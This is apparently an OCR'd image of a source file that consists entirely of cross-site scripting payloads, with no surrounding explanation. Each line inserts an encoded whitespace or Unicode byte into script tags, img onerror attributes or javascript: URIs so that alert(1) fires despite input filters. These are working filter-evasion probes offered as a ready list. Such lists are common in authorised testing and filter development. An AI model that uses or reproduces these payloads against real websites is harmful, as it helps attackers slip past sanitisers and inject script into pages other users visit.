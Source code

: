 "`'&gt;&lt;script&gt;\x7Ejavascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\xE2\x80\x87javascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\xE2\x81\x9Fjavascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\xE2\x80\xA9javascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\xC2\x85javascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\xEF\xBF\xAEjavascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\xE2\x80\x83javascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\xE2\x80\x8Bjavascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\xEF\xBF\xBEjavascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\xE2\x80\x80javascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\x21javascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\xE2\x80\x82javascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\xE2\x80\x86javascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\xE1\xA0\x8Ejavascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\x0Bjavascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\x20javascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\xC2\xA0javascript:alert(1)&lt;/script&gt;

"/&gt;&lt;img/onerror=\x0Bjavascript:alert(1)\x0Bsrc=xxx:x /&gt;

"/&gt;&lt;img/onerror=\x22javascript:alert(1)\x22src=xxx:x /&gt;

"/&gt;&lt;img/onerror=\x09javascript:alert(1)\x09src=xxx:x /&gt;

"/&gt;&lt;img/onerror=\x27javascript:alert(1)\x27src=xxx:x /&gt;

"/&gt;&lt;img/onerror=\x0Ajavascript:alert(1)\x0Asrc=xxx:x /&gt;

"/&gt;&lt;img/onerror=\x0Cjavascript:alert(1)\x0Csrc=xxx:x /&gt;

"/&gt;&lt;img/onerror=\x0Djavascript:alert(1)\x0Dsrc=xxx:x /&gt;

"/&gt;&lt;img/onerror=\x60javascript:alert(1)\x60src=xxx:x /&gt;

"/&gt;&lt;img/onerror=\x20javascript:alert(1)\x20src=xxx:x /&gt;

&lt;script\x2F&gt;javascript:alert(1)&lt;/script&gt;

&lt;script\x20&gt;javascript:alert(1)&lt;/script&gt;

&lt;script\x0D&gt;javascript:alert(1)&lt;/script&gt;

&lt;script\x0A&gt;javascript:alert(1)&lt;/script&gt;

&lt;script\x0C&gt;javascript:alert(1)&lt;/script&gt;

&lt;script\x00&gt;javascript:alert(1)&lt;/script&gt;

&lt;script\x09&gt;javascript:alert(1)&lt;/script&gt;
